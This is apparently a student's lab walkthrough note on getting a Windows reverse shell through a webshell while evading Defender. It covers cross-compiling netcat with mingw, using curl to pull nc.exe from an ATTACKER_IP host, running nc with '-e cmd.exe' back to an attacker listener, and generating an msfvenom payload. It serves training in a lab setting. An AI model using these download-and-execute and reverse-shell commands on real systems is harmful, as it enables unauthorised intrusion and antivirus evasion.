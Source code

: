 Our webshell is all well and good, but let's go for a full reverse shell!

Unfortunately, we have a problem. Unlike in Linux where there are usually many ways to obtain a reverse shell, the options in Windows are a lot fewer in number as Windows tends not to have many scripting languages installed by default.

Realistically we have several options here:

- **Powershell** tends to be the go-to for Windows reverse shells. Unfortunately Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
- We could try to get a **PHP reverse shell** as we know the target has a PHP interpreter installed. Windows PHP reverse shells tend to be iffy though, and again, may trigger Defender.
- We could generate an **executable reverse shell using msfvenom**, then upload and activate it using the webshell. Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
- We could upload **netcat**. This is the quick and easy option.

The only problem with uploading netcat is that there are hundreds of different variants -- the version of netcat for Windows that comes with Kali is known to Defender, so we're going to need a different version. Fortunately there are many floating around! Let's use one from github, [here](https://github.com/int0x33/nc.exe/).

## Clone the repository  

`git clone https://github.com/int0x33/nc.exe/`  

This repository already contains pre-compiled netcat binaries for both 32 and 64 bit systems, however, this is an ideal time to talk about cross-compilation techniques. If you'd prefer to just use the default binaries then just skip to the last section of this task and use the `nc64.exe` binary from the repository.

## Cross compilation

Cross compilation is an essential skill -- although in many ways it's preferable to avoid it.

First up: what is cross compilation? The idea is to compile source code into a working program to run on a different platform. In other words, cross compilation would allow us to compile a program for a different Linux kernel, a Windows program on Kali (as we're doing here), or even software for an embedded device or phone.

Whilst cross-compilation is a very useful skill to have, it's often difficult to get completely correct. Ideally we should always try to compile our code in an environment as close to the target environment as possible. For example, if an exploit or program is designed to work on CentOS 7.2, we should try to compile it in a CentOS 7.2 VM if possible. Equally, it's essential that we get the same arch as that of the target -- a 64 bit program won't work very well on a 32 bit target!

Sometimes it's easiest to just cross-compile, however. Generally speaking we cross compile x64 Windows programs on Kali using the `mingw-w64` package (for x64 systems). This is not installed on Kali by default, however it is available in the Kali apt repositories:  
`sudo apt install mingw-w64`  

This is a big package, but once it's installed we can start re-compiling netcat.

Much like we use `gcc` to compile binaries on Linux, we can use the `mingw` compilers to compile Windows binaries. These tend to have very descriptive (read: long) names, but the one that's of particular importance to us here is `x86_64-w64-mingw32-gcc`. This specifies that we want to compile a 64bit binary.  

Inside the nc.exe repository we downloaded, delete or move the two pre-compiled netcat binaries. The repository provides a makefile which we can use (with some small alterations) to compile the binary. Open up the `Makefile` with your favourite text editor. The first two lines specify which compiler to use:

![[499921a44689.webp]]

Neither of these are quite what we're looking for, so comment out the first line and add another line underneath:  
`CC=x86_64-w64-mingw32-gcc`

![[d71f7f2fcb0e.webp]]

Now when we run `make` to build the binary, the correct compiler will be used to generate a x64 Windows executable. Note that there will be a lot of warnings generated by the compiler (these have been redirected to `/dev/null` in the following screenshot for readability, however, you do not need to do this). These are nothing to worry about; the compilation should still be successful.

![[b29a99fd33fd.webp]]

## Uploading nc.exe to the target

With a copy of netcat available, we now need to get it up to the target.

#Attacking_Machine
Start a Python webserver  (as demonstrated numerous times previously):  
`sudo python3 -m http.server 80   `

Despite it often being much harder to upload binaries to Windows than it is to upload to Linux, we do have a few options here.

- Powershell _might_ work, but with AMSI in play it's a risk.
- We could use the file upload point that we originally exploited to upload an unrestricted PHP file uploader (in the same way that we uploaded the original webshell, although this would be a bit of a pain with embedding the uploader in an image).
- We could look for other command line tools installed on the target such as `curl.exe` or `certutil.exe`, both of which might allow for a file upload.

Try to execute both of this in the webshell -- both should work.

> [!Question]
>What output do you get when running the command: `certutil.exe`?
>`CertUtil: -dump command completed successfully.`


## Certutil

Certutil is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

Instead we'll stick with trusty old cURL.

## cURL

#Attacking_Machine 
Open a python server.

`sudo python3 -m http.server 80`

#Webshell 
Use cURL to upload your new copy of netcat to the target:

`curl http://ATTACKER_IP/nc.exe/nc64.exe -o c:\\windows\\tasks\\nc-USERNAME.exe   `

> [!info]
>The room says to use the temp folder within Windows, however, I had trouble with that, a much safer and more guaranteed option is to use the tasks folders as that’s world writable.

> [!Note]
>Note the double backslashes used here. This is purely due to how the webshell handles backslashes. We need to escape the backslashes so that they are passed in as a part of the command, as opposed to escaping the letters immediately after them.

We now have everything we need to get a reverse shell back from this target.

#Attacking_Machine 
Set up a netcat listener.

`sudo nc -lvnp 443`

 #Webshell 
 Use the following command:

`powershell.exe c:\\windows\\task\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe   `

e.g.  
`powershell.exe c:\\windows\\tasks\\nc-MuirlandOracle.exe 10.50.73.2 443 -e cmd.exe   `

This should result in a reverse shell from the target!

![[ac7e2a438cd5.webp]]

> [!Note]
>In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early.

**Bonus Question (optional):** Try generating a metasploit reverse shell and transfer it to the target (`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ATTACKING_IP LPORT=CHOOSE_A_PORT`) -- make sure to place it in a directory you can list (e.g. the Uploads directory of the webserver). This shell will get picked up by Defender (so don't do it anywhere else!), but it will give you a feel for how antivirus operates when it detects your payload as being malicious.

You should get an error message when trying to execute the executable and the exe will also disappear from the current directory (placed into quarantine by the AV). At this point the Administrator has also been alerted, along with the security team in a bigger organisation.

**Next sep: ** [[AV EVASION/Enumeration|Enumeration]]

